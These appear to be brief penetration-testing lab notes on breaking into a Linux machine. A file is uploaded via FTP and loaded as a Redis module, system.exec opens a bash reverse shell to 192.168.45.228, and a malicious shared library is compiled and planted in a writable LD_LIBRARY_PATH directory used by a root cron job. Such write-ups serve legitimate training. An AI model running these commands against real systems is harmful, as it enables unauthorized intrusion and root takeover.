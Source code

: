 
- Had an FTP that can upload the files to pub folder
Default folder location
```
/var/ftp/pub 
```

- Redis was there and can upload files to the machine so used the below technique
https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#load-redis-module
- Took the shell using from redis using below command after loading the file
```bash
module load /var/ftp/pub
```

```bash
system.exec "/bin/bash -i >& /dev/tcp/192.168.45.228/21 0>&1"
```

- For privilege escalation a directory in LD_LIBRARY_PATH was writable
LD_LIBRARY_PATH=/usr/lib:/usr/lib64:**/usr/local/lib/dev:**/usr/local/lib/utils

- Noticed a cron as root to run log-sweep

```bash
ldd /usr/bin/log-sweeper
```

noticed that utils.so is not found.

- Then transferred **mal_so**  in the */home/kali/oscp/linux_tools* to the victim 
- Compiled it 
```bash
mv mal_so utils.c
```

```bash
gcc -o utils.so -shared -fPIC utils.c
```

```bash
chmod 777 utils.so
```

```bash
cp utils.so /usr/local/lib/dev/utils.so
```

https://atom.hackstreetboys.ph/linux-privilege-escalation-environment-variables/
